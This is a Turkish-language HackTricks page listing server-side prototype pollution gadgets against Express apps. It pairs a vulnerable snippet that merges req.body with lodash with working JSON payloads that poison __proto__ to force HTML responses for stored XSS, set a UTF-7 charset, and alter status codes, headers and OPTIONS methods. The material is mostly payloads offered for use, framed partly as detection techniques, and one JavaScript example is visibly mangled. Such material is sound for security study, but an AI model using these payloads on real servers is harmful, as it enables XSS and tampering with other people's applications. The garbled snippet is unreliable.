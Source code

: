 # Express Prototype Pollution Gadgets

{{#include ../../../banners/hacktricks-training.md}}

## XSS yanıtlarını sunma

**Daha fazla ayrıntı için** [**orijinal araştırmaya göz atın**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON içerik türünü HTML olarak değiştirin

Bir **JSON içerik türü yanıtı** kullanan bir Express uygulamasında ve bir JSON'u yansıtarak:
```javascript
app.use(bodyParser.json({ type: "application/json" }))
app.post("/", function (req, res) {
_.merge({}, req.body)
res.send(req.body)
})
```
Bu durumlarda XSS genellikle JSON içerik türü ile mümkün değildir. Ancak, prototype pollution ile **Express'i bir HTML yanıtı sunması için kandırabiliriz.** Bu güvenlik açığı, uygulamanın **`res.send(obj)`** kullanmasına ve application/json içerik türü ile body parser'ı kullanmasına dayanır.
```json
{ "__proto__": { "_body": true, "body": "<script>evil()" } }
```
**`body`** ve **`_body`** özelliklerini **kirleterek**, **Express'in HTML içerik türünü sunmasını** sağlamak ve **_body** özelliğini yansıtmak mümkündür; bu da saklı XSS'e yol açar.

### UTF7'yi Render Et

Express'in **UTF-7 içeriğini render etmesini sağlamak mümkündür**:
```json
{ "__proto__": { "content-type": "application/json; charset=utf-7" } }
```
## Güvenli Tarama Teknikleri

### JSON boşlukları

Aşağıdaki PP, bir JSON içindeki niteliklerin işlevselliği bozmayacak şekilde ekstra bir boşluğa sahip olmasını sağlayacaktır:
```json
{ "__proto__": { "json spaces": " " } }
```
Yansıtılan bir JSON şöyle görünecektir:
```json
{"foo":  "bar"} -- Note the extra space
```
### Açık Başlıklar

Aşağıdaki PP aracı, sunucunun HTTP başlığını geri göndermesini sağlayacaktır: **`Access-Control-Expose_headers: foo`**
```json
{ "__proto__": { "exposedHeaders": ["foo"] } }
```
**CORS modülünün yüklenmesi gerekmektedir**

### **OPTIONS Yöntemi**

Aşağıdaki yük ile, **OPTIONS yanıtından bir yöntemi gizlemek** mümkündür:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Durum**

Aşağıdaki PP yükü kullanılarak **dönen durum kodu** değiştirmek mümkündür:
```json
{ "__proto__": { "status": 510 } }
```
### Hata

Bir prototipe bir dize gibi bir ilkel atadığınızda, bu **prototipin bir nesne olması gerektiğinden no-op işlemi** üretir. Eğer bir prototip nesnesini `Object.prototype`'a atamaya çalışırsanız, bu **bir istisna fırlatır**. Bu iki davranışı **prototip kirliliğinin başarılı olup olmadığını tespit etmek için** kullanabiliriz:
```javascript
;({}).__proto__.__proto__ = {}(
//throws type exception
{}
).__proto__.__proto__ = "x" //no-op does not throw exception
```
### Yansıtılan Değer

Bir uygulama yanıtında bir nesne içerdiğinde, **`__proto__` ile birlikte alışılmadık bir isimle bir özellik oluşturmak** faydalı olabilir. Özellikle, eğer **yalnızca alışılmadık özellik yanıt olarak döndürülüyorsa**, bu uygulamanın zayıflığını gösterebilir:
```json
{ "unusualName": "value", "__proto__": "test" }
```
Ayrıca, Lodash gibi bir kütüphane kullanıldığında, bir özelliği hem prototip kirlenmesi (PP) yoluyla hem de doğrudan nesne içinde ayarlamak başka bir tanısal yaklaşım sunar. Eğer böyle bir özellik yanıttan çıkarılmışsa, bu, Lodash'ın birleştirmeden önce hedef nesnede özelliğin varlığını doğruladığını gösterir:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Çeşitli

### Noktalara İzin Ver

Express'te **sorgu dizesi parametrelerinden nesneler oluşturmanıza** olanak tanıyan bir seçenek vardır.\
Kesinlikle bir hata **zincirinde** kullanarak bir **prototip kirlenmesi açığını** istismar edebilirsiniz.
```json
{ "__proto__": { "allowDots": true } }
```
**`?foo.bar=baz` Node'da bir nesne oluşturur.**

## Referanslar

- [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)

{{#include ../../../banners/hacktricks-training.md}}
